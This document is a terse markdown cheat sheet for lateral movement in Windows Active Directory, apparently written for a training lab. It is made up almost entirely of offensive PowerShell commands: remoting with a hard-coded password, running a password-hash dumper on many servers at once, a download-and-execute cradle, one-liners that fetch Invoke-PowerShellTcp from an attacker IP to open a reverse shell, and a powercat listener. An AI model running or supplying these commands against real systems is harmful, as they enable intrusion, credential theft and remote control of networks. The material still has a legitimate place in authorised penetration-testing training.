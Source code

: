 # Lateral Movement
> test

# table of content
1. [test](#test)


## Powershell Remoting
Change user

```powershell
$passwd = ConvertTo-SecureString "SuperS3Cr31PAssw0rd!@l33t" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("user", $passwd)
Enter-PSSession -Credential $creds -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
 ```
If you want to save the session
```powershell
$passwd = ConvertTo-SecureString "SuperS3Cr31PAssw0rd!@l33t" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("user", $passwd)
$sess = New-PSSession -Credential $creds
Enter-PSSession -Credential $creds -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
If you dont need a password
```powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
Dont need password with saved session
```powershell
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Enter-PSSession -Session $sess
```

Execution Cradle
```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
```

Invoke Command
Use below to execute commands or scriptblocks:
```powershell
Invoke-Command –Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)
 ```
Use below to execute scripts from files (some script thet wont work can work in this mode)
```powershell
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```
Use below to execute locally loaded function on the remote machines:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
```
In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```
In below, a function call within the script is used:
```powershell
Invoke-Command -Filepath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```
Use below to execute "Stateful" commands using Invoke-Command:
```powershell
$Sess = New-PSSession –Computername Server1
Invoke-Command –Session $Sess –ScriptBlock {$Proc = GetProcess}
 Invoke-Command –Session $Sess –ScriptBlock {$Proc.Name}
```
## Technique (user hunting)
```powershell
Find-LocalAdminAccess -Verbose
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## RCE
```powershell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1')); Power -Reverse -IPAddress 172.16.100.X -Port 443


powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Power -Reverse -IPAddress 172.16.100.X -Port 443
```
powercat
```powershell
. .\powercat.ps1
powercat -l -v -p 443 -t 100
```
python open file
```bash
python -m SimpleHTTPServer 8080
python2 -m http.server
```